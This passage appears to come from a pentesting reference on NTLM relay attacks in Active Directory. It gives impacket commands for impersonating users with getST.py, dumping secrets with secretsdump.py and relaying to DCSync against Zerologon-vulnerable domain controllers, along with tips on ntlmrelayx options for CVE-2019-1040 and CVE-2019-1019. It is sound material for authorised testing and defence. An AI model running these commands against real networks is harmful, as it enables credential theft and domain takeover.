 ```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}

{% tab title="DCSync" %}
A [DCSync](../credentials/dumping/dcsync.md) can also be operated with a relayed NTLM authentication, but only if the target domain controller is vulnerable to [Zerologon](../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}
{% endtabs %}

### Tips & tricks :bulb:

The ntlmrelayx tool offers features making it a very valuable asset when pentesting an Active Directory domain:

* It can work with mitm6 (for [DHCPv6 + DNS poisoning](../mitm-and-coerced-authentications/#ipv6-dns-poisoning)) by enabling IPv6 support with the `-6` option (IPv6 support is not required since most hosts will send IPv4 but using this option is recommended since it will allow relay servers to work with IPv4 and IPv6)
* It supports SMB2. It can be enabled with the `-smb2support` option
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "cross-protocols unsigning relays" (e.g. **SMB to SMB-with-required-signing, or SMB to LDAP/S).** This option can also be used when NTLMv1 is allowed (NTLMv1 doesn't support MIC).
* it implements **CVE-2019-1019** with the `-remove-target` and `-machine-account` arguments
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`, and the `-w` option can be set to watch the target file for changes and update target list automatically
* the target can be specified with a target protocol like `ldap://target` but the "all" keyword can be used (`all://target`). If the protocol isn't specified, it defaults to smb.
* It has the ability to relay connections for specific target users to be defined in the targets file
* It has the ability to relay a single connection (SMB only for now) to multiple targets, see below

{% hint style="info" %}
Thanks to [the "multi-relay" feature](https://github.com/SecureAuthCorp/impacket/pull/767), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture an NTLM response with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}

![](../../../.gitbook/assets/capture\_and\_relay.png)
